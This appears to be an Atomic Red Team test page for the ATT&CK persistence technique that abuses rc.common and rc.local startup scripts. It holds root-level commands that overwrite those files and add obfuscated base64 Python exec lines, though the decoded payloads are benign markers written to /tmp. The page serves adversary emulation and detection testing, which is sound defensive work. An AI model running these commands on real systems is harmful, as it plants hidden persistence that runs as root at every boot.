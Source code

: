 # T1037.004 - Boot or Logon Initialization Scripts: Rc.common
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1037/004)
<blockquote>

Adversaries may establish persistence by modifying RC scripts, which are executed during a Unix-like system’s startup. These files allow system administrators to map and start custom services at startup for different run levels. RC scripts require root privileges to modify.

Adversaries may establish persistence by adding a malicious binary path or shell commands to <code>rc.local</code>, <code>rc.common</code>, and other RC scripts specific to the Unix-like distribution.(Citation: IranThreats Kittens Dec 2017)(Citation: Intezer HiddenWasp Map 2019) Upon reboot, the system executes the script's contents as root, resulting in persistence.

Adversary abuse of RC scripts is especially effective for lightweight Unix-like distributions using the root user as default, such as ESXi hypervisors, IoT, or embedded systems.(Citation: intezer-kaiji-malware) As ESXi servers store most system files in memory and therefore discard changes on shutdown, leveraging `/etc/rc.local.d/local.sh` is one of the few mechanisms for enabling persistence across reboots.(Citation: Juniper Networks ESXi Backdoor 2022)

Several Unix-like systems have moved to Systemd and deprecated the use of RC scripts. This is now a deprecated mechanism in macOS in favor of [Launchd](https://attack.mitre.org/techniques/T1053/004).(Citation: Apple Developer Doco Archive Launchd)(Citation: Startup Items) This technique can be used on Mac OS X Panther v10.3 and earlier versions which still execute the RC scripts.(Citation: Methods of Mac Malware Persistence) To maintain backwards compatibility some systems, such as Ubuntu, will execute the RC scripts if they exist with the correct file permissions.(Citation: Ubuntu Manpage systemd rc)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - rc.common](#atomic-test-1---rccommon)

- [Atomic Test #2 - rc.common](#atomic-test-2---rccommon)

- [Atomic Test #3 - rc.local](#atomic-test-3---rclocal)


<br/>

## Atomic Test #1 - rc.common
Modify rc.common

[Reference](https://developer.apple.com/library/content/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/StartupItems.html)

**Supported Platforms:** macOS


**auto_generated_guid:** 97a48daa-8bca-4bc0-b1a9-c1d163e762de






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
sudo echo osascript -e 'tell app "Finder" to display dialog "Hello World"' >> /etc/rc.common
```






<br/>
<br/>

## Atomic Test #2 - rc.common
Modify rc.common

**Supported Platforms:** Linux


**auto_generated_guid:** c33f3d80-5f04-419b-a13a-854d1cbdbf3a






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
filename='/etc/rc.common';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.common.original;fi
printf '%s\n' '#!/bin/bash' | sudo tee /etc/rc.common
echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMuY29tbW9uID4gL3RtcC9UMTAzNy4wMDQucmMuY29tbW9uJykK'))\"" | sudo tee -a /etc/rc.common
printf '%s\n' 'exit 0' | sudo tee -a /etc/rc.common
sudo chmod +x /etc/rc.common
```

#### Cleanup Commands:
```bash
origfilename='/etc/rc.common.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.common;else sudo cp $origfilename /etc/rc.common && sudo rm $origfilename;fi
```





<br/>
<br/>

## Atomic Test #3 - rc.local
Modify rc.local

**Supported Platforms:** Linux


**auto_generated_guid:** 126f71af-e1c9-405c-94ef-26a47b16c102






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
filename='/etc/rc.local';if [ ! -f $filename ];then sudo touch $filename;else sudo cp $filename /etc/rc.local.original;fi
[ "$(uname)" = 'FreeBSD' ] && alias python3=python3.9 && printf '#\!/usr/local/bin/bash' | sudo tee /etc/rc.local || printf '#!/bin/bash' | sudo tee /etc/rc.local
echo "\npython3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgcmMubG9jYWwgPiAvdG1wL1QxMDM3LjAwNC5yYy5sb2NhbCcpCgo='))\"" | sudo tee -a /etc/rc.local
printf 'exit 0' | sudo tee -a /etc/rc.local
sudo chmod +x /etc/rc.local
```

#### Cleanup Commands:
```sh
origfilename='/etc/rc.local.original';if [ ! -f $origfilename ];then sudo rm /etc/rc.local;else sudo cp $origfilename /etc/rc.local && sudo rm $origfilename;fi
```





<br/>
